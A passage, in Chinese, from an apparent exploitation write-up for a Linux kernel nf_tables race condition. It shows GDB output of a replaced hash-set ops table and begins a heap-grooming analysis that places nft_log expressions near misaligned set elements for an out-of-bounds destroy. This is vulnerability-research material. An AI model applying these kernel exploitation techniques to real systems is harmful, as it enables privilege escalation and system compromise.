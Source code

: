 通过调试可以确认 pwn\_lookup\_set 被占位后，ops->elemsize 从 8 变成了 16

```plaintext
(gdb) p (((struct nft_trans_elem *)trans->data)->set)->name
$12 = 0xffff888113fffea0 "race_set_0004"
(gdb) p *(((struct nft_trans_elem *)trans->data)->set)->ops
$13 = {
  lookup = 0xffffffffc085ff00 <nft_hash_lookup>,
  update = 0x0 <fixed_percpu_data>,
  delete = 0x0 <fixed_percpu_data>,
  insert = 0xffffffffc085fa10 <nft_hash_insert>,
  activate = 0xffffffffc085f420 <nft_hash_activate>,
  deactivate = 0xffffffffc085f950 <nft_hash_deactivate>,
  flush = 0xffffffffc085f450 <nft_hash_flush>,
  remove = 0xffffffffc085f480 <nft_hash_remove>,
  walk = 0xffffffffc085f4c0 <nft_hash_walk>,
  get = 0xffffffffc085fe40 <nft_hash_get>,
  privsize = 0xffffffffc085f830 <nft_hash_privsize>,
  estimate = 0xffffffffc085f7d0 <nft_hash_estimate>,
  init = 0xffffffffc085f790 <nft_hash_init>,
  destroy = 0xffffffffc085f690 <nft_hash_destroy>,
  gc_init = 0x0 <fixed_percpu_data>,
  elemsize = 16
}
(gdb) bt
#0  0xffffffffc0850984 in nft_commit_release (trans=0xffff88811e22da00) at net/netfilter/nf_tables_api.c:8476
#1  nf_tables_trans_destroy_work (w=<optimized out>) at net/netfilter/nf_tables_api.c:8513
#2  0xffffffff810e581c in process_one_work (worker=worker@entry=0xffff8881039c7540, work=0xffffffffc0872380 <trans_destroy_work>) at kernel/workqueue.c:2289
#3  0xffffffff810e5a40 in worker_thread (__worker=0xffff8881039c7540) at kernel/workqueue.c:2436
#4  0xffffffff810ee77a in kthread (_create=0xffff888107f66640) at kernel/kthread.c:376
#5  0xffffffff810028bf in ret_from_fork () at arch/x86/entry/entry_64.S:306
#6  0x0000000000000000 in ?? ()
```

‍

### 堆风水分析

占位 set 后可以让 elem 错位，利用 nf\_tables\_set\_elem\_destroy 可以越界销毁一个 expr，因此我们需要在 elem 的附近布置 nft\_log expr，elem 在 nft\_add\_set\_elem 中被分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，分配大小可以控制。

log expr 可以通过 newrule 请求分配，分配的 flag 为 GFP\_KERNEL\_ACCOUNT，log expr 会嵌入到 rule 的内存中。

-   nf\_tables\_newrule
    
    1.  handle = nf\_tables\_alloc\_handle(table);
        
    2.  nft\_ctx\_init(&ctx, net, skb, info->nlh, family, table, chain, nla);
        
    3.  size = 0;
        
    4.  nla\_for\_each\_nested(tmp, nla\[NFTA\_RULE\_EXPRESSIONS\], rem) <span style="font-weight: bold;" data-type="strong">--> 计算 expr 占用的内存大小</span>
        
